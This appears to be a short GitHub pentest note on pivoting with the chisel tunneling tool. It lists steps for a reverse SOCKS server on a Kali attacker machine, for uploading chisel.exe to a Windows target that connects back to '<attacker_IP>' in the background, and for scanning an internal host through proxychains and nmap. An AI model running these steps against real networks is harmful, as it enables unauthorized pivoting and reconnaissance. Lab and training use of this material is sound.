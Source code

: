 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &

chisel.exe client <attacker_IP>:<Local_listening_port> R:[port_file_proxychain]:socks &
```

![image](https://user-images.githubusercontent.com/55615071/189031515-c4c54896-bd04-40c0-bc7b-43dc82c63afb.png)


![image](https://user-images.githubusercontent.com/55615071/189064300-dc57330d-61dc-476b-b9cf-72afb1540b39.png)


Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![image](https://user-images.githubusercontent.com/55615071/189031556-d2728e7c-db24-4c89-8c04-bbe52aa36687.png)

try testing by use proxychains before command

![image](https://user-images.githubusercontent.com/55615071/189031576-396b1d6c-7d26-45c6-9793-1d876845a043.png)

proxychains nmap -sT -Pn -sV -sC -p1-6000 192.168.239.129

![image](https://user-images.githubusercontent.com/55615071/189031936-dd2bbdcb-284d-4d58-abd8-e2cb0d3ddb9d.png)

![image](https://user-images.githubusercontent.com/55615071/189064326-048fdaef-8772-4380-8714-d35c40d8442e.png)

